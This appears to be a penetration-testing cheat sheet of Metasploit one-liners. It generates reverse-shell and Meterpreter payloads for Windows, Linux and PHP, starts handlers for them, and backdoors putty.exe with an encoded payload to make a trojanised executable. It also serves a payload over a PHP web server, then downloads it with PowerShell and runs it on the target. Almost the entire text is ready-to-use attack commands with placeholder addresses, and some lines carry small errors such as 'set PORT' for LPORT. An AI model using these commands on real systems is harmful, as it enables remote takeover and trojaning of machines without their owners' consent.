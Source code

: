 Create payload and listener "One Liners"
------------------------------------------------
```bash
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# Linux
# This one works, prompt appears to fail, type shell then ls. (crashes some hosts :))
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 -b "\x00" -f elf -o new-shell
msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set LPORT 4444; run; exit -y"


# Does not seem to work
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=1234 -f elf > ./shell.elf
msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter_reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# PHP
msfconsole -x "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
```

Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
# Create Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
# Start Listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
Generate Payload -> powershell to download -> execute 
--------------------------------------------------------------------
```bash
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=7777 -f exe > ./reverse3.exe
# Start Webserver to download
php -S <locahost-ip-address>:80
# Start listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 7777
exploit
# Use PowerShell to download payload
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx:80/reverse3.exe -O 'C:\path\where\you\can\create\files\reverse3.exe'
# Execute payload (try different quotes as needed)
"C:\path\where\you\can\create\files\reverse3.exe"
```

